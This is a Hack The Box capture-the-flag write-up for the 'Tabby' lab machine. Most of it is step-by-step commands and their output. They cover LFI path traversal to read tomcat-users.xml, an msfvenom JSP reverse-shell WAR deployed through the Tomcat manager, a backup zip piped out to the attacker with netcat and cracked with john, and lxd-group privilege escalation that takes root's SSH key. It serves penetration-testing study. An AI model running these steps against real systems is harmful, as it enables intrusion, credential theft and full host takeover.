

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/tabby-easy
---

# ✅ Tabby (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** LFI

**System Vulnerable:** 10.10.10.194

**Vulnerability Explanation:** The application is vulnerable to LFI which could allow us to view the tomcat-users.xml file and gave us access to Manager Interface. We can deploy the payload and gain access to the machine.

**Privilege Escalation Vulnerability:** Misconfigure of lxd group

**Vulnerability Fix:** Sanitized user input&#x20;

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.194 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-29 11:59 EST
Nmap scan report for 10.10.10.194
Host is up (0.040s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Enumeration

### Port 80 Apache/2.4.41

.png>)

Running gobuster to find hidden directory background.

```
└─$ gobuster dir -u http://10.10.10.194 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50            
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.194
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/29 12:04:32 Starting gobuster in directory enumeration mode
===============================================================
/files                (Status: 301) [Size: 312] [--> http://10.10.10.194/files/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.10.194/assets/]
/server-status        (Status: 403) [Size: 277]                                  
                                                                                 
===============================================================
2021/11/29 12:07:39 Finished
===============================================================

```

By clicking on the NEWS button it redirect me to **megahosting.htb** domain. Let add to hosts.

.png>)

Once we found parameter file, we will test on LFI.

```
http://megahosting.htb/news.php?file=../../../../etc/passwd
```

.png>)

### Port 8080 Apache Tomcat

.png>)

There are interesting path on the webpage, **/etc/tomcat9/tomcat-users.xml**, **/host-manager/html**, **/manager/html**.&#x20;

As the application is vulnerable to LFI. We can perform Path traversal to execute users.xml.

.png>)

### Tomcat Path

But it doesn't response anything. By checking the path on our local machine,

```
find / -name tomcat-users.xml
/usr/share/tomcat9/etc/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml
```

```
GET /news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml HTTP/1.1
```

.png>)

```
username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"
```

* **admin-gui:** gives the user the ability to configure the Host Manager application using the graphical web interface.
* **manager-script:** gives the user the ability to configure the Manager application using the text interface instead of the graphical web interface.

On /manager/html, it returns access denied.

.png>)

on /host-manager/html, it's working.

.png>)

## Exploitation

We can deploy service which contain revershell code.

```
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=1234 -f war > shell.war
Payload size: 1098 bytes
Final size of war file: 1098 bytes
```

Use curl command to upload our payload.

```
└─$ curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/shell --upload-file shell.war               

OK - Deployed application at context path [/shell]
```

Start netcat listener on port 1234 and going to execute the payload.

```
nc -lvp 1234
http://10.10.10.194:8080/shell
```

.png>)

## Privilege Escalation

### Shell as ash

on **/var/www/html**, there is zip file. We can transfer by netcat. On our machine, let start netcat listener on port 444.

```
nc -lvp 4444 > 16162020_backup.zip
```

On victim machine

```
tomcat@tabby:/var/www/html/files$ cat 16162020_backup.zip | nc 10.10.14.24 4444
```

We can check the md5sum to confirms after transfer, the file still the same.

```
tomcat@tabby:/var/www/html/files$ md5sum 16162020_backup.zip
f0a0af346ad4495cfdb01bd5173b0a52  16162020_backup.zip
```

let crack the zip file

```
└─$ zip2john 16162020_backup.zip > 16162020_backup.txt
16162020_backup.zip/var/www/html/assets/ is not encrypted!
ver 1.0 16162020_backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/favicon.ico PKZIP Encr: 2b chk, TS_chk, cmplen=338, decmplen=766, crc=282B6DE2
ver 1.0 16162020_backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6
ver 1.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/logo.png PKZIP Encr: 2b chk, TS_chk, cmplen=2906, decmplen=2894, crc=2F9F45F
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/news.php PKZIP Encr: 2b chk, TS_chk, cmplen=114, decmplen=123, crc=5C67F19E
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/Readme.txt PKZIP Encr: 2b chk, TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

└─$ john 16162020_backup.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:01 DONE (2021-11-30 01:09) 0.9090g/s 9417Kp/s 9417Kc/s 9417KC/s adnc153..adilizinha
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Let switch to user ash with password we found.

```
tomcat@tabby:/var/www/html/files$ su ash
Password: 
ash@tabby:/var/www/html/files$ whoami
ash
ash@tabby:/var/www/html/files$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

### Shell as root

### User ash is part of lxd group.

Reference: [https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)

On our kali Linux machine,

```
└─$ sudo apt update
└─$ sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
└─$ sudo go get -d -v github.com/lxc/distrobuilde

[~/go/src/github.com]
└─$ git clone https://github.com/lxc/distrobuilder                                                                                                                                      128 ⨯
Cloning into 'distrobuilder'...
remote: Enumerating objects: 4909, done.
remote: Counting objects: 100% (1770/1770), done.
remote: Compressing objects: 100% (932/932), done.
remote: Total 4909 (delta 1155), reused 1341 (delta 822), pack-reused 3139
Receiving objects: 100% (4909/4909), 1.72 MiB | 1.12 MiB/s, done.
Resolving deltas: 100% (3141/3141), done.

└─$ make
└─$ mkdir -p $HOME/ContainerImages/alpine/
└─$ cd $HOME/ContainerImages/alpine/
└─$ wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
└─$ sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8

┌──(pwned㉿kali)-[~/ContainerImages/alpine]
└─$ mv lxd.tar.xz rootfs.squashfs ~/Desktop/HTB/tabby 
```

Let transfer both the files to our victim machine. Let start HTTP server first.

```
python -m SimpleHTTPServer 80
```

```
ash@tabby:/tmp/test$ wget http://10.10.14.24/lxd.tar.xz
ash@tabby:/tmp/test$ wget http://10.10.14.24/rootfs.squashfs
```

### lxc command error

```
ash@tabby:/tmp$ /snap/bin/lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first instance, try: lxc launch ubuntu:18.04

ash@tabby:/tmp$ lxd init 
Command 'lxd' is available in '/snap/bin/lxd'
The command could not be located because '/snap/bin' is not included in the PATH environment variable.
lxd: command not found
ash@tabby:/tmp$ /snap/bin/lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (lvm, zfs, ceph, btrfs, dir) [default=zfs]: 
Create a new ZFS pool? (yes/no) [default=yes]: 
Would you like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=5GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like the LXD server to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 

```

By running the command to add image via web shell it doesn't work and need to access by ssh.

```
ash@tabby:/tmp$ /snap/bin/lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
Error: open lxd.tar.xz: no such file or directory
```

Create ssh-keygen

```
ash@tabby:~/.ssh$ ssh-keygen -f ash
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ash
Your public key has been saved in ash.pub
The key fingerprint is:
SHA256:A00C3sLJV3A0jHPkDAx9yXwW5No73zCio3YVa3IL0B0 ash@tabby
The key's randomart image is:
+---[RSA 3072]----+
|    o=+OBoo.     |
|   + o=XBoE      |
|    * +=++..     |
|     o...oo      |
|       .S .o     |
|        o.=.     |
|         *+.o    |
|      . o..+ +   |
|     ..o..  . .  |
+----[SHA256]-----+
```

```
ash@tabby:~/.ssh$ mv ash.pub authorized_keys
```

Copy the content of private key to our kali machine.

```
└─$ chmod 600 id_rsa                          
└─$ ssh -i id_rsa ash@10.10.10.194                                                   

ash@tabby:/tmp$ wget 10.10.14.24/lxd.tar.xz
ash@tabby:/tmp$ wget 10.10.14.24/rootfs.squashfs

ash@tabby:/tmp$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
Image imported with fingerprint: bd0cf6d4dd19e5897e47710b009eaf09c98a42c68490f7d724ab35fbb599507f

ash@tabby:/tmp$ lxc image list
+--------+--------------+--------+----------------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |              DESCRIPTION               | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+----------------------------------------+--------------+-----------+--------+------------------------------+
| alpine | bd0cf6d4dd19 | no     | Alpinelinux 3.8 x86_64 (20211130_1340) | x86_64       | CONTAINER | 2.21MB | Nov 30, 2021 at 1:47pm (UTC) |
+--------+--------------+--------+----------------------------------------+--------------+-----------+--------+------------------------------+

ash@tabby:/tmp$ lxc init alpine privesc -c security.privileged=true
Creating privesc

ash@tabby:/tmp$ lxc list                  
+---------+---------+------+------+-----------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+---------+---------+------+------+-----------+-----------+
| privesc | STOPPED |      |      | CONTAINER | 0         |
+---------+---------+------+------+-----------+-----------+

ash@tabby:/tmp$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc

ash@tabby:/tmp$ lxc start privesc
ash@tabby:/tmp$ lxc exec privesc /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # whoami
root
~ # pwd
/root
~ # cd /mnt
/mnt # ls
root
/mnt # cd root/
/mnt/root/root # cd .ssh/
/mnt/root/root/.ssh # ls
authorized_keys  id_rsa           id_rsa.pub
```

Copy the content of the id\_rsa under root user to our machine.

```
└─$ touch root_rsa                                        
└─$ chmod 600 root_rsa                        
└─$ ssh -i root_rsa root@10.10.10.194                                                
```

.png>)
